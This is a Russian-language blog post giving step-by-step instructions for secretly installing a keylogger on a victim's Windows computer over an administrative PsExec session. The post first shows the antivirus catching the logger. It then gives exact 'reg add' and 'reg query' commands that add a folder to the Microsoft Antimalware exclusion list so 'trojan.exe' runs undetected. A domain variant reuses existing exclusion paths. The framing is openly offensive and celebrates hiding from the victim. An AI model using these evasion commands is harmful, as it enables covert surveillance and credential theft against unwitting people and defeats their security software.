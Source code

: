 ```yaml
---
title: "Удалённая установка кейлоггера на компьютер с Microsoft Security Essentials или System Center Endpoint Protection"
date: 2015-02-15
---
```


**Дано:** Сессия PsExec (либо любая другая) с административными привилегиями на машине жертвы. У жертвы установлен Microsoft Security Essentials либо System Center Endpoint Protection.  
**Задача:** Незаметно для жертвы установить кейлоггер.  
  
Разберём неправильный и правильный способ решения данной задачи.  
  

###  **Неправильный способ**

**  
**

Для начала проверим, что произойдёт, если попробовать установить логгер "в лоб" без всяких ухищрений. Собираем бинарник, задаём в качестве рабочей директории что-нибудь неприметное, например  **c:\Windows\SysWOW64\WindowsPowerShell\**  
  
1\. Открываем сессию PsExec  
  
![1.1.jpg]({{ '/images/1.1.jpg' | absolute_url }})  
  


2\. Кидаем установщик логгера в директорию **c:\Windows\SysWOW64\WindowsPowerShell\**  и запускаем  
  
**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**  
**  
**  


![8.1.jpg]({{ '/images/8.1.jpg' | absolute_url }})  

  


Ищем процесс кейлоггера

  

**tasklist /fi "IMAGENAME eq VME.exe"**

  

![3.jpg]({{ '/images/3.jpg' | absolute_url }}) 

  

  
  
  
  
Его нет. А почему? Да потому что, антивирус успешно отработал и радостно сообщил об этом жертве.

  

![4.jpg]({{ '/images/4.jpg' | absolute_url }}) 

  

  


![5.jpg]({{ '/images/5.jpg' | absolute_url }}) 

  

  
  
Операция провалена...

  

###  Правильный способ

  

Теперь пойдём другим путём и установим логгер в директорию, которая не будет проверятся антивирусом.  
  
Список исключений для Microsoft Security Essentials хранится в ключе реестра **HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths**  
  
1\. Для начала проверим его содержимое

  

**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  

![6.jpg]({{ '/images/6.jpg' | absolute_url }}) 

  

  

  
  
  
  
  
В данном случае список исключений пуст.  

  

2. Добавим в исключения директорию **c:\Windows\SysWOW64\WindowsPowerShell\**

  

**reg add "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths" /v c:\Windows\SysWOW64\WindowsPowerShell\ /d "1" /t REG_DWORD**

  

и проверим результат

  

**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  

  

![7.1.jpg]({{ '/images/7.1.jpg' | absolute_url }}) 

  
  
3\. Помещаем логгер в выбранный нами каталог и запускаем его

  

**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**  

  

![8.1.jpg]({{ '/images/8.1.jpg' | absolute_url }}) 

  

Проверяем результат:

  

**tasklist /fi "IMAGENAME eq VME.exe"**

  

![9.jpg]({{ '/images/9.jpg' | absolute_url }}) 

  

PROFIT! Логгер запущен, а антивирус жертвы ни о чём не подозревает

  

![10.jpg]({{ '/images/10.jpg' | absolute_url }}) 

  

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  


### 

###    


###  Поправка на домен

  

В случае когда жертва является членом домена AD и вместо **Essentials** у неё установлен **System Center Endpoint Protection** , логика действий будет немного другой. Endpoint Protection, как и  Essentials хранит исключения в HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths, но их список, скорее всего, будет настроен централизованно через политики защиты. В этом случае наши изменения будут перезаписаны после повторного применения политики, поэтому у нас есть два варианта действий:  

  
  * Если список исключений задан (в реестре есть какие-либо записи) устанавливаем логгер в любой из перечисленных там каталогов;
  * Если список исключений не задан (записи в реестре отсутствуют) то политика исключений не настроена и мы можем смело вписывать туда нужный нам каталог.


В остальном порядок действий ничем не отличается.